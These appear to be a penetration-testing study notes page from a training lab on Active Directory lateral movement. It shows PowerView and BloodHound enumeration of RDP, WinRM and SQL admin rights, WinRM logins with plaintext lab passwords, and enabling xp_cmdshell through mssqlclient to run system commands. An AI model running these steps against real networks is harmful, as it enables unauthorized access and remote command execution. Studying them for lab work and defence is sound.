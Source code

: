 ### Content
- [RDP](#rdp)
- [WinRM](#winrm)
---

> [!Note]
>  If we take over an account with local admin rights over a host, or set of hosts, we can perform a `Pass-the-Hash` attack to authenticate via the SMB protocol.
>  
>  If we don't yet have local admin rights on any hosts, there are:
>  - RDP
>  - [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.2)
>  - MSSQL Server 
>
> We can enumerate this access in various ways. BloodHound, PowerView, built-in tools as the following edges exist to show us what types of remote access privileges a given user has:
>  - [CanRDP](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canrdp)
>  - [CanPSRemote](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canpsremote)
>  - [SQLAdmin](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#sqladmin)

---
# RDP

Enumerating the Remote Desktop Users Group using PowerView on a host.

``` Powershell
PS C:\> Get-NetLocalGroupMember -ComputerName MS01 -GroupName "Remote Desktop Users"

ComputerName : MS01
GroupName    : Remote Desktop Users
MemberName   : DOMAIN\Domain Users
SID          : S-1-5-21-3842939050-3880317879-2865463114-513
IsGroup      : True
IsDomain     : UNKNOWN


# From the information above, all Domain Users (meaning all users in the domain) can RDP to this host.
```

Enumerating the Remote Desktop Users Group on Every Host using PowerView

``` Powershell
PS C:\> Get-ADComputer -Filter * | Select-Object -ExpandProperty SamAccountName > ad_computers.txt
PS C:\> foreach($line in [System.IO.File]::ReadLines("ad_computers.txt")) {Get-NetLocalGroupMember -ComputerName "$($line.TrimEnd('$'))" -GroupName "Remote Desktop Users"}
```

##### BloodHound

- Choose the `Domain Users's group` node and check its execution rights. 
- Run the pre-built queries `Find Workstations where Domain Users can RDP` or `Find Servers where Domain Users can RDP`.

> To test this access, we can either use a tool such as `xfreerdp` or `Remmina` from our VM or the Pwnbox or `mstsc.exe` if attacking from a Windows host.

---

# WinRM

Enumerating the Remote Management Users Group on a Host using PowerView
``` PowerShell
PS C:\> Get-NetLocalGroupMember -ComputerName MS01 -GroupName "Remote Management Users"

ComputerName : ACADEMY-EA-MS01
GroupName    : Remote Management Users
MemberName   : INLANEFREIGHT\forend
SID          : S-1-5-21-3842939050-3880317879-2865463114-5614
IsGroup      : False
IsDomain     : UNKNOWN
```

Enumerating the Remote Management Users Group on Every Host using PowerView
``` PowerShell
PS C:\> Get-ADComputer -Filter * | Select-Object -ExpandProperty SamAccountName > ad_computers.txt
PS C:\> foreach($line in [System.IO.File]::ReadLines("ad_computers.txt")) {Get-NetLocalGroupMember -ComputerName "$($line.TrimEnd('$'))" -GroupName "Remote Management Users"}
```
##### BloodHound
Utilize this custom `Cypher query` in BloodHound to hunt for users with this type of access.
``` Cypher

MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

> To test this access form Windows host, use [Enter-PSSession](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.2) cmdlet using PowerShell and use [evil-winrm](https://github.com/Hackplayers/evil-winrm) from Linux host.

Establishing WinRM Session from Windows
``` PowerShell
PS C:\> $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
PS C:\> $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
PS C:\> Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
```
Establishing WinRM Session from Linux
``` bash
$ evil-winrm -i 10.129.201.234 -u forend
```

---
# SQL Server Admin

If we have compromised a user or service account with sysadmin privileges on a given SQL server instance.

Enumerating MSSQL Instances with PowerUpSQL.
``` PowerShell
PS C:\> Import-Module .\PowerUpSQL.ps1
PS C:\> Get-SQLInstanceDomain

ComputerName     : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL
Instance         : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL,1433
DomainAccountSid : 1500000521000170152142291832437223174127203170152400
DomainAccount    : damundsen
DomainAccountCn  : Dana Amundsen
Service          : MSSQLSvc
Spn              : MSSQLSvc/ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL:1433
LastLogon        : 4/6/2022 11:59 AM
```
##### BloodHound
use this custom Cypher query to search users and service accounts set up with sysadmin privileges on a given SQL server instance.
``` Cypher

MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

> To test this access, use `PowerUpSQL` module in windows and `mssqlclient` in linux.

PowerUpSQL > [command cheat sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet).

``` PowerShell

PS C:\> Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```

mssqlclient

``` bash
$ mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth

SQL> enable_xp_cmdshell
SQL> xp_cmdshell type C:\Users\damundsen\Desktop\flag.txt
```
